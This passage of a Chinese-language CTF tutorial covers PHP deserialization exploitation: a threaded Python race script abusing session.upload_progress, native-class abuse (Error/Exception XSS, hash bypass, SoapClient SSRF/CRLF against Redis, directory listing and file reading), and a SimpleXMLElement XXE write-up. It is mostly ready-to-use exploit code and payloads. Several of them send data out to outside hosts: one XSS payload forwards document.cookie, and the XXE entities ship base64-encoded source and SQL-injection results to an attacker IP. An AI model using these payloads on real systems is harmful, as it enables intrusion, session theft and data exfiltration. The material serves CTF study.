可以看到它已经成功写入进去了，并且内容也是我们想要的内容，按照php处理器的处理方法，会以|为分隔符，左边为键，右边为值，然后将值进行反序列化操作，那我们就去有漏洞的页面去刷新，看看它有没有反序列化之后触发反序列化漏洞：

上面介绍了可以对session的进行赋值的，那如果代码中不存在对$_SESSION变量赋值的情况下又该如何利用  ？

### 6、$_SESSION变量不可控

#### 利用session.upload_progress进行反序列化攻击

**看大佬的分析文章**https://www.freebuf.com/vuls/202819.html

##### 测试环境

> php5.5.38
>
> win10
>
> `session.serialize_handler=php_serialize`，其余session相关配置为默认值

##### 示例代码

```
<?php
error_reporting(0);
date_default_timezone_set("Asia/Shanghai");
ini_set('session.serialize_handler','php');
session_start();
class Door{
    public $handle;

    function __construct() {
        $this->handle=new TimeNow();
    }

    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}
class  IP{
    public $ip;
    function __construct() {
        $this->ip = 'echo $_SERVER["REMOTE_ADDR"];';
    }
    function action() {
        eval($this->ip);
    }
}
?>
```

##### 分析

**问题一**

整个代码没有参数可控的地方。通过什么方法来进行反序列化利用呢

**解答一**

这里，利用`PHP_SESSION_UPLOAD_PROGRESS`上传文件，其中利用文件名可控，从而构造恶意序列化语句并写入session文件。

另外，与文件包含利用一样，也需要进行竞争。

##### 利用脚本

首先利用exp.php脚本构造恶意序列化语句

```
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Door{
    public $handle;

    function __construct() {
        $this->handle = new IP();
    }

    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}

class  IP{
    public $ip;
    function __construct() {
        //$this->ip='payload';
        $this->ip='phpinfo();';
        //$this->ip='print_r(scandir('/'));';
    }
    function action() {
        eval($this->ip);
    }
}
$a=new Door();
$b=serialize($a);
$c=addslashes($b);
$d=str_replace("O:4:","|O:4:",$c);
echo $d;
?>
```

其此利用exp.py脚本进行竞争

```
#coding=utf-8
import requests
import threading
import io
import sys

def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    while True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)<2000:
            print('[+++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
            et.clear()
            print('success!')
            

if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in xrange(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()

```

首先在代码里加个代理，利用burp抓包。如下图



这里有几个注意点：

> PHPSESSID必须要有，因为要竞争同一个文件
>
> filename可控，但是在值的最前面加上`|`,因为最终目的是利用session的反序列化，`PHP_SESSION_UPLOAD_PROGRESS`只是个跳板。其次把字符串中的双引号转义，以防止与最外层的双引号冲突
>
> 上传的文件要大些，否则很难竞争成功。我写入是这么大`f = io.BytesIO(b'a' * 1024 *1024*1)`
>
> filename值中出现汉字时，会出错，所以在利用脚本前，[一定要修改python源码](https://blog.csdn.net/iriszx999/article/details/82113521)

最后把`exp.py`中的代理去掉，直接跑`exp.py`,效果如下。




## 0x06 php原生类反序列化（SoapClient）

思考一个问题，当目标php代码***只有一个类或者没有类利用***时，我们是否就完全没有了利用手段，只能放弃？

你可能会说是，但其实不然。

在php代码中没有可利用的类时，我们还可以调用php的内置类（原生类）来进行**XSS,反序列化，SSRF，XXE和读文件**等一系列的操作。内置类，顾名思义就是php本身存在的类，我们可以直接拿过来用。本次来学习经常能用到的几种内置类。  

```php
 <?php
$classes = get_declared_classes();
//get_declared_classes()函数是PHP中的内置函数，用于返回具有
//已定义类名称的数组。用户数组，其中包含当前脚本中所有system-defined(例如PDO，XML阅读器等)的列表以及用户定义的类。
foreach ($classes as $class) {
    $methods = get_class_methods($class);// 函数的作用是返回由类的方法名组成的数组
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'    // 可以根据题目环境将指定的方法添加进来, 来遍历存在指定方法的原生类
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
} 
```

执行结果如下：

```php
Exception::__wakeup
Exception::__toString
ErrorException::__wakeup
ErrorException::__toString
DateTime::__wakeup
DateTime::__set_state
DateInterval::__wakeup
DateInterval::__set_state
DatePeriod::__wakeup
DatePeriod::__set_state
LogicException::__wakeup
LogicException::__toString
BadFunctionCallException::__wakeup
BadFunctionCallException::__toString
BadMethodCallException::__wakeup
BadMethodCallException::__toString
DomainException::__wakeup
DomainException::__toString
InvalidArgumentException::__wakeup
InvalidArgumentException::__toString
LengthException::__wakeup
LengthException::__toString
OutOfRangeException::__wakeup
OutOfRangeException::__toString
RuntimeException::__wakeup
RuntimeException::__toString
OutOfBoundsException::__wakeup
OutOfBoundsException::__toString
OverflowException::__wakeup
OverflowException::__toString
RangeException::__wakeup
RangeException::__toString
UnderflowException::__wakeup
UnderflowException::__toString
UnexpectedValueException::__wakeup
UnexpectedValueException::__toString
CachingIterator::__toString
RecursiveCachingIterator::__toString
SplFileInfo::__toString
DirectoryIterator::__toString
FilesystemIterator::__toString
RecursiveDirectoryIterator::__toString
GlobIterator::__toString
SplFileObject::__toString
SplTempFileObject::__toString
SplFixedArray::__wakeup
ReflectionException::__wakeup
ReflectionException::__toString
ReflectionFunctionAbstract::__toString
ReflectionFunction::__toString
ReflectionParameter::__toString
ReflectionMethod::__toString
ReflectionClass::__toString
ReflectionObject::__toString
ReflectionProperty::__toString
ReflectionExtension::__toString
ReflectionZendExtension::__toString
DOMException::__wakeup
DOMException::__toString
PDOException::__wakeup
PDOException::__toString
PDO::__wakeup
PDOStatement::__wakeup
SimpleXMLElement::__toString
SimpleXMLIterator::__toString
PharException::__wakeup
PharException::__toString
Phar::__destruct
Phar::__toString
PharData::__destruct
PharData::__toString
PharFileInfo::__destruct
PharFileInfo::__toString
com_exception::__wakeup
com_exception::__toString
mysqli_sql_exception::__wakeup
mysqli_sql_exception::__toString
```

其中目前实际常用的类有：

```php
Error
Exception
SoapClient
DirectoryIterator
FilesystemIterator
SplFileObject
SimpleXMLElement
```

接下来一一讨论。

### 1、Error/Exception 内置类

#### 1.条件:

在**开启报错**的情况下

```plain
Exception类 适用于PHP7 PHP5版本
Error类 适用于PHP7版本
```

#### 2.利用姿势

#### 2.1. xss

 有好一些cms会选择直接使用 echo <Object> 的写法，当 PHP 对象被当作一个字符串输出或使用时候（如echo的时候）会触发__toString 方法，这也是挖洞的一种思路。  

直接上实例：

```php
<?php
  highlight_file(__FILE__);
$a = $_GET['xss'];
print_r(unserialize($a));
//echo unserialize($a);
?>
```

可以看到，环境中给出了反序列化入口，但却没有可以利用的类，那么这时候，就到了前面说到的原生类发挥作用的时候了。

poc:

```php
//Error类 php7
<?php
  $a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>

//Exception类 php5、php7
<?php
$a = new Exception("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```

**例题：[BJDCTF 2nd]xss之光**

进入题目,通过git泄露拿到源码如下：

```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

 这就是一个典型的反序列化函数，但是没有给出反序列化的类，我们无法构造pop链，只有利用php内置类来反序列化，加上一个echo，我们就可以利用Error内置类来XSS：

payload：一般xss的题都是在cookie理里，所以我们利用XSS把cookie带出来  

```php
<?php
$poc = new Exception("<script>window.open('http://de28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn/?'+document.cookie);</script>");
echo urlencode(serialize($poc));
?>
传参即可
/?yds_is_so_beautiful=O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A109%3A%22%3Cscript%3Ewindow.open%28%27http%3A%2F%2Fde28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn%2F%3F%27%2Bdocument.cookie%29%3B%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

 

#### 2.2.  md5()与sha1()哈希绕过

在Error和Exception这两个PHP原生类中内有 __toString 方法，这个方法用于将异常或错误对象转换为字符串

1. **利用条件：**

Error类: php7

Exception类：php5与php7

1. **测试**

```php
<?php
$a = new Error("payload1",1);$b = new Error("payload2",2);//两个类的实例化必须放在同一行
echo $a;
echo "\r\n\r\n";
echo $b;
?>
```

  首先说明一下a和b的实例化为什么放在一行写才能绕过hash，Error类里有一个方法Error::getLine()，他会获取错误发生时的行号，两个赋值都不在一行，行号肯定不同，自然md5值也不相同了。 

 输出 ：



可以看到，以字符串的形式输出了当前报错，包含当前的错误信息（”payload1/2”）以及当前报错的行号（”2”），而传入 Error("payload",1) 中的错误代码“1/2”则没有输出出来。  

**总结：**

**$a 和 $b 这两个错误对象本身是不同的（不相等），但是 __toString 方法返回的结果是相同的** 

**这就可以拿来利用。**

```php
<?php
$a = new Error("payload",1);$b = new Error("payload",2);
if($a!=$b){
    echo "值不相等";
}
echo "\r\n";
if(md5($a)==md5($b)){//===强等于也是可以的
    echo "md5值相等";
}
echo "\r\n";
if(sha1($a)==sha1($b)){//===强等于也是可以的
    echo "sha1值相等";
}
?>
```

 输出结果为  ：

```php
值不相等
md5值相等
sha1值相等
```

例题：直接给题解：

```php
<?php

class SYCLOVER {
	public $syc;
	public $lover;
	public function __wakeup(){
		if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
		   if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
			   eval($this->syc);
		   } else {
			   die("Try Hard !!");
		   }
		   
		}
	}
}
$cmd='/flag';
$cmd=urlencode(~$cmd)
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
也可以用，也需要用两次取反
$str1 = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!".urldecode("%FF")."]?>";
$str = "?><?=include $_GET[1]?>"; 
*/
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));

?>
```

### 2、SoapClient内置类

SoapClient是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端，可以创建soap数据报文，与wsdl接口进行交互

注意：

1. **soap扩展模块默认关闭，使用时需手动开启**
2. SoapClient::__call() -----调用 SOAP 函数 (**PHP 5, 7, 8**)
3. 该内置类有一个 __call 方法，当 __call 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 __call 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。而__call触发很简单，就是当对象访问不存在的方法的时候就会触发。  
4. 该类的构造函数如下：
   **public SoapClient :: SoapClient(mixed $wsdl [，array $options ])**

- **第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。**
- **第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，**
  **则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，**
  **而uri 是SOAP服务的目标命名空间**

1.  什么是soap  

**SOAP 是基于 XML 的简易协议，是用在分散或分布的环境中交换信息的简单的协议，可使应用程序在 HTTP 之上进行信息交换**
**SOAP是webService三要素（SOAP、WSDL、UDDI）之一：WSDL 用来描述如何访问具体的接口， UDDI用来管理，分发，查询webService ，SOAP（简单对象访问协议）是连接或Web服务或客户端和Web服务之间的接口。**
**其采用HTTP作为底层通讯协议，XML作为数据传送的格式。**

#### 利用姿势一：SSRF

1.  我们构造一个利用payload，第一个参数为NULL，第二个参数的location设置为vps地址  

```php
<?php
$a = new SoapClient(null, array(
'location' => 'http://xx.xxx.xxx.xx:2333', 
'uri' =>'uri',
'user_agent'=>'111111'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```

监听vps的2333端口，如下图所示成功触发SSRF，vps收到了请求信息，且可以看到SOAPAction和user_agent都可控

 **当使用此内置类(即soap协议)请求存在服务的端口时，会立即报错，而去访问不存在服务(未占用)的端口时，会等待一段时间报错，可以以此进行内网资产的探测。**  

#### 利用姿势二、 会话持久化（配合CRLF漏洞）

```php
<?php
$a = new SoapClient(null, array(
    'location' => 'http://47.102.146.95:2333',
    'uri' =>'uri',
    'user_agent'=>"111111\r\nCookie: PHPSESSION=dasdasd564d6as4d6a"));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```



#### 利用姿势三、 攻击Redis（配合CRLF漏洞）

[看这里，攻击redis姿势](https://www.cnblogs.com/AmosAlbert/p/13747408.html)

```php
<?php
$target = 'http://ip:10000/';
$poc = "CONFIG SET dir /var/www/html";
$a = new SoapClient(null,array('location' => $target, 'uri' => 'hello^^'.$poc.'^^hello'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b); 
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

#### 利用姿势四、http数据包污染

 发送POST的数据包，这里需要将Content-Type设置为application/x-www-form-urlencoded，我们可以通过添加两个\r\n来将原来的Content-Type挤下去，自定义一个新的Content-Type  

```php
<?php
$a = new SoapClient(null, array(
    'location' => 'http://47.102.146.95:2333',
    'uri' =>'uri',
    'user_agent'=>"111111\r\nContent-Type: application/x-www-form-urlencoded\r\nX-Forwarded-For: 127.0.0.1\r\nCookie: PHPSESSID=3stu05dr969ogmprk28drnju93\r\nContent-Length: 10\r\n\r\npostdata"));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();
```



#### ctfshow上的例题：

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff); //获取xff头


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
?>
```

### 3、目录遍历相关利用内置类(使用可遍历目录类绕过 open_basedir())

注：绕过open_basedir()可以看看https://blog.csdn.net/Xxy605/article/details/120221577

#### 3.1. DirectoryIterator 类   

**DirectoryIterator类**提供了一个简单的接口来查看文件系统目录的内容。

**DirectoryIterator::__toString** 获取字符串形式的文件名 （**PHP 5,7,8**）, 会创建一个指定目录的迭代器。当执行到echo函数时，会触发DirectoryIterator类中的 __toString() 方法，输出指定目录里面经过排序之后的第一个文件名  

```php
<?php
$dir=new DirectoryIterator("/");
echo $dir;
```

 使用此内置类的__toString方法结合glob://或file://协议，即可实现目录遍历  

```php
<?php
$a = new DirectoryIterator("glob:///*");
//glob:// 协议用来查找匹配的文件路径模式
foreach ($a as $b){
    echo $b.'<br>';
}
```

#### 3.2. FilesystemIterator 类

**FilesystemIterator**继承于DirectoryIterator，两者作用和用法基本相同，区别为**FilesystemIterator会显示文件的完整路径，而DirectoryIterator只显示文件名**  

```php
<?php
$dir=new FilesystemIterator("/");
foreach($dir as $f){
    echo($f.'<br>');
    //echo($f->__toString().'<br>');//这里加不加__toString()方法都可以，因为echo会转换字符串
    //自动调用该魔术方法
}
```

#### 注意：以上两类

1. 因为可以配合使用glob伪协议(查找匹配的文件路径模式)，所以可以绕过open_basedir的限制
2. 在php4.3以后使用了zend_class_unserialize_deny来禁止一些类的反序列化，很不幸的是这两个原生类都在禁止名单当中

#### 3.3. GlobIterator 类

 GlobIterator 类也可以遍历一个文件目录，使用方法与前两个类也基本相似。但与上面略不同的是**其行为类似于 glob()，可以通过模式匹配来寻找文件路径**  

 当我们使用 DirectoryIterator 类和 FilesystemIterator 类且没有配合glob://协议进行匹配的时候：

```php
<?php
$dir=new DirectoryIterator("/");
echo $dir;

<?php
$dir=new FilesystemIterator("/");
echo $dir;
```

其构造函数创建的是一个指定目录的迭代器，当我们使用echo函数输出的时候，会触发这两个类中的 __toString() 方法，输出指定目录里面特定排序之后的第一个文件名。也就是说如果我们不循环遍历的话是不能看到指定目录里的全部文件的，而 GlobIterator 类便可以帮我们在一定程度上解决了这个问题。由于 GlobIterator 类支持直接通过模式匹配来寻找文件路径，也就是说假设我们知道一个文件名的一部分，我们可以通过该类的模式匹配找到其完整的文件名。

意思就是我们可以在GlobIterator中直接使用正则匹配路径来遍历目录：

```php
<?php
$dir = $_GET['cmd'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
//?cmd=/
<?php
  $newclass = new GlobIterator("./*.php",0);
foreach ($newclass as $key=>$value){
  echo $key.'=>'.$value.'<br>';
    }
?>
```



#### 3.4. 利用姿势（payload）

```php
<?php
$dir = $_GET['x'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中x=glob:///*

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
<?php
$dir = $_GET['x'];
$a = new FilesystemIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中x=glob:///*

# payload一句话的形式:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
<?php
$dir = $_GET['x'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中x=/*

# payload一句话的形式:
$a = new FilesystemIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

### 4、读取文件相关利用内置类

#### 4.1. SplFileObject 类

**SplFileObject 类**继承了父类**plFileInfo::__toString()** 方法为单个文件的信息提供了一个面向对象的高级接口， 可以用于对文件内容的遍历、查找、操作  

**(PHP 5 >= 5.1.2, PHP 7, PHP 8)**（ 且受到open_basedir影响  ）

```php
<?php
highlight_file(__file__);
$a = new SplFileObject("./flag.txt");//不遍历，则只读取第一行
echo $a;
/*foreach($context as $f){//遍历读取所有行
    echo($a);
}*/
```

#### 4.2. 利用例题：[2021 MAR DASCTF 明御攻防赛]ez_serialize

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class A{
    public $class;
    public $para;
    public $check;
    public function __construct()
    {
        $this->class = "B";
        $this->para = "ctfer";
        echo new  $this->class ($this->para);
    }
    public function __wakeup()    // 可以直接绕过__wakeup()方法的执行
    {
        $this->check = new C;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
            echo new  $this->class ($this->para);
        }
        else
            die('bad hacker~');
    }

}
class B{
    var $a;
    public function __construct($a)
    {
        $this->a = $a;
        echo ("hello ".$this->a);
    }
}
class C{

    function vaild($code){
        $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
        if (preg_match($pattern, $code)){
            return false;
        }
        else
            return true;
    }
}


if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
else{
    $a=new A;

}
```

 先代码审计，发现没有什么危险函数的利用，因此只能尝试利用原生类了

 首先利用DirectoryIterator或FilesystemIterator类去遍历目标的Web目录：  

```php
<?php
class A{
    public $class='FilesystemIterator';    
    // FilesystemIterator("/var/www/html")
    public $para="/var/www/html/";
    public $check;
    }

$poc  = new A();
echo urlencode(serialize($poc));
//?pop=xxxxxxxxxx....,执行后得到一个文件夹 aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE：
```

 然后进入这个文件夹  

```php
<?php
class A{
    public $class='FilesystemIterator';    
    // FilesystemIterator("/var/www/html")
    public $para="/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/";
    public $check;
    }

$poc  = new A();
echo urlencode(serialize($poc));
//看到flag.php
```

 现在我们只需要读取文件内容，**利用SplFileObject类**:

```php
<?php
class A{
    public $class='SplFileObject';    
    // SplFileObject("/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php")
    public $para="/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php";
    public $check;
    }

$poc  = new A();
echo serialize($poc);
```

 能否利用原生类读取文件内容和文件目录  ,下面这行代码是关键：

```php
echo new  $this->class ($this->para)
```

#### 4.3. ReflectionMethod类--获取注释

 **(PHP 5 >= 5.1.0, PHP 7, PHP 8)**  

 ReflectionMethod 类中有很多继承方法可以使用，比如这个 **getDocComment()** 方法，我们可以用它来获取类中各个函数注释内容，如下图所示：



#### 4.4. 利用姿势例题：[2021 CISCN]easy_source

```php
<?php
class User
{
    private static $c = 0;

    function a()
    {
        return ++self::$c;
    }

    function b()
    {
        return ++self::$c;
    }

    function c()
    {
        return ++self::$c;
    }

    function d()
    {
        return ++self::$c;
    }

    function e()
    {
        return ++self::$c;
    }

    function f()
    {
        return ++self::$c;
    }

    function g()
    {
        return ++self::$c;
    }

    function h()
    {
        return ++self::$c;
    }

    function i()
    {
        return ++self::$c;
    }

    function j()
    {
        return ++self::$c;
    }

    function k()
    {
        return ++self::$c;
    }

    function l()
    {
        return ++self::$c;
    }

    function m()
    {
        return ++self::$c;
    }

    function n()
    {
        return ++self::$c;
    }

    function o()
    {
        return ++self::$c;
    }

    function p()
    {
        return ++self::$c;
    }

    function q()
    {
        return ++self::$c;
    }

    function r()
    {
        return ++self::$c;
    }

    function s()
    {
        return ++self::$c;
    }

    function t()
    {
        return ++self::$c;
    }
    
}

$rc=$_GET["rc"];    // 传入原生类名
$rb=$_GET["rb"];    // 传入类属性
$ra=$_GET["ra"];    // 传入类属性
$rd=$_GET["rd"];    // 传入类方法
$method= new $rc($ra, $rb);    // 实例化刚才传入的原生类
var_dump($method->$rd());     // 调用类中的方法
```

 首先看到这两行代码  

```php
$method= new $rc($ra, $rb);  
var_dump($method->$rd());
```

类似于上面的题，需要利用原生类，考察ReflectionMethod类，猜测flag在注释中

直接构造payload,即可得到flag

```php
?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment
```


### 5、SimpleXMLElement 类 XXE

SimpleXMLElement 这个内置类用于解析 XML 文档中的元素。

官方文档中对SimpleXMLElement 类的**构造方法 SimpleXMLElement::__construct()** 的定义如下:

 意味着，当我们将第三个参数data_is_url设置为true的话，我们就可以调用远程xml文件，实现xxe的攻击。第二个参数的常量值我们设置为2即可。第一个参数 data 就是我们自己设置的payload的url地址，即用于引入的外部实体的url。  

#### 利用姿势例题：SUCTF2018-Homework

注册账号，登录作业平台。看到一个`calc`计算器类。有两个按钮，一个用于调用`calc`类实现两位数的四则运算。另一个用于提交代码

2+2=4，我们观察参数，再结合代码可知[module](https://so.csdn.net/so/search?q=module&spm=1001.2101.3001.7020)为调用的类，args为类的构造方法的参数~
 在PHP中存在内置类。其中包括`SimpleXMLElement`，文档中对于`SimpleXMLElement::__construct`定义如下:





可以看到通过设置第三个参数为`true`，可实现远程xml文件载入。第二个参数的常量值我们设置为`2`即可。第二个参数可定义的所有常量在这里。第一个参数就是我们自己设置的payload的地址，用于引入外部实体。

我们构造的xml如下~

**obj.xml**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE try[
<!ENTITY % int SYSTEM "http://174.0.159.143/e.xml">
%int;
%all;
%send;
]>
```

**e.xml**

```
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://174.0.159.143/?%payl;'>">
```

然后进入`show.php`页面~~我们的参数为：

```
/show.php?module=SimpleXMLElement&args[]=http://174.0.159.143/obj.xml&args[]=2&args[]=true
```

第一个参数为我们`obj.xml`的地址，这样就能加载obj.xml，再加载e.xml，网站的源码带出~~

function.php

```php
<?php

function sql_result($sql,$mysql){
	if($result=mysqli_query($mysql,$sql)){
		$result_array=mysqli_fetch_all($result);
		return $result_array;
	}else{
		 echo mysqli_error($mysql);
		 return "Failed";
	}
}

function upload_file($mysql){
	if($_FILES){
		if($_FILES['file']['size']>2*1024*1024){
			die("File is larger than 2M, forbidden upload");
		}
		if(is_uploaded_file($_FILES['file']['tmp_name'])){
			if(!sql_result("select * from file where filename='".w_addslashes($_FILES['file']['name'])."'",$mysql)){
				$filehash=md5(mt_rand());
				if(sql_result("insert into file(filename,filehash,sig) values('".w_addslashes($_FILES['file']['name'])."','".$filehash."',".(strrpos(w_addslashes($_POST['sig']),")")?"":w_addslashes($_POST['sig'])).")",$mysql)=="Failed") die("Upload failed");
				$new_filename="./upload/".$filehash.".txt";
				move_uploaded_file($_FILES['file']['tmp_name'], $new_filename) or die("Upload failed");
				die("Your file ".w_addslashes($_FILES['file']['name'])." upload successful.");
			}else{
				$hash=sql_result("select filehash from file where filename='".w_addslashes($_FILES['file']['name'])."'",$mysql) or die("Upload failed");
				$new_filename="./upload/".$hash[0][0].".txt";
				move_uploaded_file($_FILES['file']['tmp_name'], $new_filename) or die("Upload failed");
				die("Your file ".w_addslashes($_FILES['file']['name'])." upload successful.");
			}
		}else{
			die("Not upload file");
		}
	}
}


function w_addslashes($string){
	return addslashes(trim($string));
}


function do_api($module,$args){
	$class = new ReflectionClass($module);
	$a=$class->newInstanceArgs($args);
}
?>
```

show.php

```php
<?php
	include("function.php");
	include("config.php");
	include("calc.php");

	if(isset($_GET['action'])&&$_GET['action']=="view"){
		if($_SERVER["REMOTE_ADDR"]!=="127.0.0.1") die("Forbidden.");
		if(!empty($_GET['filename'])){
			$file_info=sql_result("select * from file where filename='".w_addslashes($_GET['filename'])."'",$mysql);
			$file_name=$file_info['0']['2'];
			echo("file code: ".file_get_contents("./upload/".$file_name.".txt"));
			$new_sig=mt_rand();
			sql_result("update file set sig='".intval($new_sig)."' where id=".$file_info['0']['0']." and sig='".$file_info['0']['3']."'",$mysql);
			die("<br>new sig:".$new_sig);
		}else{
			die("Null filename");
		}
	}

	$username=w_addslashes($_COOKIE['user']);
	$check_code=$_COOKIE['cookie-check'];
	$check_sql="select password from user where username='".$username."'";
	$check_sum=md5($username.sql_result($check_sql,$mysql)['0']['0']);
	if($check_sum!==$check_code){
		header("Location: login.php");
	}

	$module=$_GET['module'];
	$args=$_GET['args'];
	do_api($module,$args);
?>
```

```
我们审计一下源码，可以发现文件上传存在二次注入~~
```



在show.php中，直接将数据库中的数据取出然后放入sql语句中~~
我们存放sig的时候 可以传入十六进制~~
但是这儿有一个问题，我们必须是127.0.0.1才能访问show.php页面，展示图片信息~~
由于show.php页面会直接返回我们注入的信息，所以我们还是可以用xml将信息带出~~

e.xml

```
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=http://localhost/show.php?action=view&filename=4.txt">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://174.0.159.143/?%payl;'>">
```

这儿我们上传的文件为4.txt，然后我们上传的十六进制为：

```
0x277c7c6578747261637476616c756528312c636f6e63617428307837652c2873656c656374207265766572736528666c6167292066726f6d20666c6167292c3078376529297c7c27
解码为：
'||extractvalue(1,concat(0x7e,(select reverse(flag) from flag),0x7e))||'
```

我这儿加了一个`reverse`，是因为buu上面的flag过长，不能一下报错读取完，所以我分两次读取~~





```
/show.php?module=SimpleXMLElement&args[]=http://174.0.159.143/obj.xml&args[]=2&args[]=true
```

**总结**

我们上传文件的时候，如果已经上传了1.txt，如果还想注入下一个sql语句，我们就得更换文件名，注意将e.xml中的上传文件名也换过来~~


### 6、ZipArchive 类来删除文件

 条件：**php 5.20**  

 ZipArchive类可以对文件进行压缩与解压缩处理。   可以通过本类执行一些文件操作，在**CTF可以用来删除waf**  

其中有：**ZipArchive::open(string $filename, int $flags=0)方法**

**该方法用来打开一个新的或现有的zip存档以进行读取，写入或修改。**

**filename：要打开的ZIP存档的文件名。**
**flags：用于打开档案的模式。有以下几种模式：**
**ZipArchive::OVERWRITE：总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖或删除。**
**ZipArchive::CREATE：如果不存在则创建一个zip压缩包。**
**ZipArchive::RDONLY：只读模式打开压缩包。**
**ZipArchive::EXCL：如果压缩包已经存在，则出错。**
**ZipArchive::CHECKCONS：对压缩包执行额外的一致性检查，如果失败则显示错误。**
